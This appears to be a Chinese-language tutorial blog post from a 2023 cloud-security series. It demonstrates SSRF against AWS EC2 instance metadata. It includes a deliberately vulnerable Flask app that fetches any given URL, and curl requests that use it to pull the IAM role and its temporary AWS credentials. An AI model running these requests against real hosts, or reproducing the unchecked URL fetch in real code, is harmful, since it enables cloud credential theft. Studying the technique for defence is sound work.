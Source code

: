 ```yaml
---
author: Sunny Tsai
title: "[Day 22] 天堂雲端 - EC2 MetaService Credentials洩漏 by SSRF POC"
date: 2023-10-05
math: true
tags: [
    "aws",
    "ec2",
    "imds",
    "SSRF"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

寫一個簡單的SSRF漏洞
```python
from flask import Flask, request
import requests

app = Flask(__name__)


@app.route("/index")     # 127.0.0.1/8000/index?url={URL}
def follow_url():
    url = request.args.get("url", "")
    if url:
        return requests.get(url).text

    return "no url parameter provided"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

把這份含有SSRF漏洞的Web應用程式丟到EC2上面執行，因為是測試用直接python3 {執行檔}就好了，就不設定瀏覽器服務。

# 取得Instance MetaService Credential
雖然IMDS僅在實例內部可用，不能通過網絡從外部訪問。但是透過SSRF漏洞可以執行外部訪問IMDS憑證

### 查詢EC2 instance 是否有關聯的IAM role
Request
```shell
curl /index?url=http://169.254.169.254/latest/meta-data/iam
```
Output
```shell
info security-credentials/
```
確定有關聯的IAM role

-----


### 返回與Credential關聯的IAM role名稱
Request
```shell
curl http://ec2-54-156-95-23.compute-1.amazonaws.com:12345/index?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
Output
```shell
role name
```
如果是在自己架設的環境測試的話，可以進到EC2 -> 執行個體 -> 執行個體詳細資訊中查看輸出是否跟IAM 角色相符
![](https://imgur.com/xfPtb2N.png)


### 檢索Credential
Request
```shell
curl http://ec2-54-156-95-23.compute-1.amazonaws.com:12345/index?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{role name}
```

Output
大概會長這樣
```json
{ "Code" : "Success", "LastUpdated" : "Date", "Type" : "AWS-HMAC", "AccessKeyId" : "XXXXXXXXXXXX", "SecretAccessKey" : "XXXXXXXX", "Token" : "XXXXXXXX", "Expiration" : "Date" }
```
